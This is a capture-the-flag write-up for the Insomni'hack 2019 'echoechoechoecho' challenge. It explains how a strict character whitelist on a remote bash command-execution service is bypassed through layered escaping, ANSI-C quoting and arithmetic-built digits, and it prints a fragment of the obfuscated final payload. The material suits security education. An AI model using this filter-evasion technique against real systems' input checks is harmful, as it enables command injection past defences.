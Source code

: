 # echoechoechoecho, 216p, 18 solves

> Echo echo echo echo, good luck  
>  
> nc 35.246.181.187 1337

In this task we are able to input commands to be executed on server. The catch
is there  
is a strict whitelist of allowed characters. The relevant code is:

```python  
   if re.search(r'[^();+$\\= \']', payload.replace("echo", "")):  
       bye("ERROR invalid characters")

   # real echolords probably wont need more special characters than this  
   if payload.count("+") > 1 or \  
           payload.count("'") > 1 or \  
           payload.count(")") > 1 or \  
           payload.count("(") > 1 or \  
           payload.count("=") > 2 or \  
           payload.count(";") > 3 or \  
           payload.count(" ") > 30:  
       bye("ERROR Too many special chars.")

```

There is also an interesting snippet near the bottom:

```python  
payload += "|bash"*count  
```

In other words, we can execute any string consisting of rather small number of  
`^();+$\= '` characters and `echo` strings and pipe it to bash up to ten
times.

The most important thing to do is to increase number of limited characters
(like brackets),  
since it's clearly impossible to encode useful commands in so little space.
Let's say  
we want to have more than one `(` character. We can write:

```bash  
echo=\(; echo $echo$echo$echo$echo  
```

Which will print four left brackets after one bash pipe. We can encode the
other limited characters in a similar  
fashion (remembering to backslash-escape the inner string; thankfully
backslashes are unlimited). Now that  
we can do that, we should think of a way to encode arbitrary characters. It
turns out there is a `$'abcd'` syntax  
in bash, enabling  
[ANSI-C
quoting](https://www.gnu.org/software/bash/manual/html_node/ANSI_002dC-
Quoting.html#ANSI_002dC-Quoting).  
Of the features, the one useful for us are escape sequences: `$'\154\163'`
will expand to `ls` after passing  
through a layer of bash. We have all the characters needed except digits. We
can make digits using bash  
arithmetics though: `$(($$==$$))` is `1` and we can add up to nine ones to get
any digit.

We wrote an automatic encoder of arbitrary commands, consisting of eight
layers of encoding. We were able  
to execute simple commands, like `ls -al` and found unreadable `flag` file and
executable `getflag` binary.  
It asked us to implement an arithmetic captcha, which turned out to be the
same as  
[here](https://hack.more.systems/writeup/2017/12/30/34c3ctf-minbashmaxfun/).
We could copy the solver snippet  
from there (we had to use temporary files to remember captcha while the binary
was still running, so it  
was not trivial).

For some reason the server seemed to break after receiving too much data
(though  
it was pretty hard to pinpoint the exact spot). The command admittedly grew
rather large,  
owing mostly to backslash exponential escaping. We optimized the encoding a
bit (such as remembering  
single `1` in another `$echo` variable in digit encoding stage) and eventually
got the full command to pass.

For fun, here's the first 1000 characters (of over 100kB) of final payload:

```bash  
echo=\=; echo echo$echo\\\;\; echo echo$echo\\\\+\$echo echo
echo$echo\\\\\\\\\\\\\\\)\\\\\$echo echo
echo$echo\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\(\\\\\\\\\\\\\$echo echo
echo$echo\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\'\\\\\\\\\\\\\\\\\\\\\\\\\\\\\$echo
echo
echo$echo\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\$\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\$echo\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\$echo\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\$\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\$$echo$echo\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\$\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\$\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\$echo\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\$echo\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\$echo
echo echo
\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\\  
```

The final encoder code is in `encode.py` file.  

Original writeup
(https://github.com/p4-team/ctf/blob/master/2019-01-19-insomnihack-
quals/echoechoechoecho/README.md).